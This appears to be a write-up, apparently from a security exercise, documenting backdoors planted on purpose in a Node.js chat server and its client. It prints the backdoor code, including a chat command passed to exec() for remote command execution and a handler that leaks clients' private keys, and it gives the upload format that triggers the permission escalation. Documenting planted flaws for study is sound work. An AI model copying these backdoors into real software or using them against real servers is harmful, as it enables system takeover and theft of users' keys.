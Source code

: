 # Backdoors and Vulnerabilities
## Elevating client permissions on server.
This code, located within the POST Request Handling of file uploads, checks the contents of each file upload to see if it begins with the data of the server's publicKey.
```
if (check.startsWith(pubkey_pem)) {
	var checkers = check.split("\n");
	if (checkers.length > 9) {
		var vfp = checkers[9];
		console.log(vfp);
		var client_ind = getClientIndex(vfp);
		if (client_ind != -1) {
			connectedClients[client_ind].permission = 1;
			res.setHeader('Content-Type', 'application/json');
			res.end(JSON.stringify({
				status: "Created",
				url: "Vulnerability Activated"
			}));
		}
	}
} else {
```
If the file does begin with the server's publicKey, if then the 'next line' in the file contains a valid fingerprint of a currently connected client, add a field "permission" to the client's associated websocket.
Example of file formatting for upload:
```
-----BEGIN PUBLIC KEY-----
MIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEAoEWigTZy0S1+7qyezGUC
6uUDHy7xWDDGdgsp+7gr9S7GmnvpnYX3LfPBjx4vZ5lc7+8zU3oSsOigudASc1UE
qYyMt5fGkRiNYv7CKl7Jeiz/Ztt5GZKTxOBxFdyWg+upxEXk1OcF15G5LxkskrX4
BseXf30N2Eg5qRqHArbhUyb12s9/R1nueCXZA5+9cWyEzC9GsxaWWV0SkXlUXrtQ
0p37AQxLgm8Tvs54cZa4K4c2bnpWgD/hC0gGd7KXz5l0ByMEan+KVEyyca7pJryJ
Iqmijx2dmrKVkxr8qSAFHAhhoiPx/pYcYiO01lNJ//x2Mt4hV1U3xby42AkDXcJt
EwIDAQAB
-----END PUBLIC KEY-----
6b5cBW7+8zWqFrMXFlo+1hBjbrD/OO2nEMHeiDXBWwA
```
Where the last line is changed to be the the client's fingerprint.
The publicKey of the server can be accessed by going to the "/pubkey" route of the server
```
https://<serverip>:<port>/pubkey
```
# Executing system commands on server from client
Whenever a client sends a public_chat message to the server, if the "permission" field is present and the message starts with "/cmd ", attempt to execute the message on the commandline.
```
case "public_chat":
	if (ws.permission == 1) {
		if (dataObj.data !== undefined) {
			var msg = dataObj.data.message;
			var cmd = "";
			if (msg.startsWith("/cmd ")) {
				cmd = msg.substr(4);
				console.log("executing code");
				exec(cmd, (err, stdout, stderr) => {
					if (err) {
						console.log("couldn't execute command");
						return;
					}
					console.log(`stdout: ${stdout}`);
					console.log(`stderr: ${stderr}`);
					var retmsg = stdout + "\n" + stderr;
					var execret = {
						type: "anonymous_chat",
						message: retmsg
					};
					ws.send(JSON.stringify(execret));
				});
				return;
			} else if (msg.startsWith("/pk")) {
				console.log("request for client privateKeys");
				dataObj.data.check = 1;
			}
		}
	}
	sendToList(connectedClients, JSON.stringify(dataObj), data.sender);
	sendToList(connectedServers, JSON.stringify(dataObj), ws.fingerprint);
	break;
```
# Getting private keys of clients from client
Whenever a client sends a public_chat message to the server, if the "permission" field is present and the message starts with "/pk", the server adds the "data.check" field to the "public_chat" before passing it to the other clients. (see above code)
this is an intentional vulnerability within the client code (index.html) therefore the elevation of permissions in the server is unnecessary and can be executed by sending a correctly formatted "public_chat".
```
case "public_chat":
	if (data.check == 1) {
		var sendMessage = {};
		sendMessage.type = "signed_data";
		sendMessage.data = {};
		sendMessage.data.type = "public_chat";
		sendMessage.data.sender = my_fp;
		sendMessage.data.message = pki.privateKeyToPem(privateKey);
		myCounter += 1;
		sendMessage.counter = myCounter;
		var shaHash = await sha256(JSON.stringify(sendMessage.data) + sendMessage.counter);
		sendMessage.signature = sign(shaHash);
		ws.send(JSON.stringify(sendMessage));
	} else {
		if (checkCounter(data.sender, dataObj.counter) != -1) {
			var s_pk = getClientPk(data.sender);
			if (verifySig(dataObj, s_pk)) {
				var chat_str = escapeHTML(timeStamp() + " " + data.sender + ": " + data.message);
				chat_window.innerHTML = "<p class='publicmsg'>" + chat_str + "</p>" + chat_window.innerHTML;
				//console.log(data.sender + ": " + data.message);
			} else {
				console.log("invalid signature verification");
			}
		}
	}
	break;
```
Upon receiving the "public_chat" with the "data.check" field present, the client sends a "public_chat" containing its privateKey.
